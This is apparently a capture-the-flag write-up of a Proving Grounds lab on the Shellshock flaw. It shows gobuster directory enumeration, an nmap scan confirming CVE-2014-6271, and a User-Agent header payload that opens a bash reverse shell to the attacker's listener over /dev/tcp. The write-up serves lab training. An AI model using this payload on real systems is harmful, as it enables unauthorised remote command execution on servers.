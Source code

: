 ```yaml
---
layout: default
title: Shellshock
parent: Web Exploits
nav_order: 10
---
```


# Shellshock

---

Gobuster returns _/cgi-bin_ directory.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ gobuster dir -u http://192.168.222.87 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 80 -f -x php,txt,html
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.222.87
[+] Method:                  GET
[+] Threads:                 80
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt,html
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
2023/11/03 22:56:32 Starting gobuster in directory enumeration mode
===============================================================
/cgi-bin/             (Status: 403) [Size: 290]
/icons/               (Status: 403) [Size: 288]
/.html/               (Status: 403) [Size: 288]
/doc/                 (Status: 403) [Size: 286]

```

Rerun Gobuster against the _/cgi-bin_ directory and locate a _/test_ directory.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ gobuster dir -u http://192.168.222.87/cgi-bin -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 80 -f -x php,txt,html
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.222.87/cgi-bin
[+] Method:                  GET
[+] Threads:                 80
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt,html
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
2023/11/03 22:59:33 Starting gobuster in directory enumeration mode
===============================================================
/.html/               (Status: 403) [Size: 296]
/local.txt/           (Status: 500) [Size: 619]
/test/                (Status: 200) [Size: 14]

```

Run nmap script for shellshock against

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/sumo]
└─$ sudo nmap -p80 --script http-shellshock --script-args uri=/cgi-bin/test 192.168.222.87
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-03 23:01 EDT
Nmap scan report for 192.168.222.87
Host is up (0.054s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock:
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       http://seclists.org/oss-sec/2014/q3/685
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271

Nmap done: 1 IP address (1 host up) scanned in 0.60 seconds
```

# Exploitation

---

## Shellshock

Intercept a GET request to /cgi-bin/test in Burp and send to Repeater

![burp1](../../../../assets/images/ctfs/proving_grounds/sumo/burp1.png)

Add the bash reverse shell one-liner to the User-Agent header in the GET request.

```bash
User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/192.168.45.217/9001 0>&1
```

![burp2](../../../../assets/images/ctfs/proving_grounds/sumo/burp2.png)

Get a reverse shell back in our netcat listener.

![shell](../../../../assets/images/ctfs/proving_grounds/sumo/shell.png)
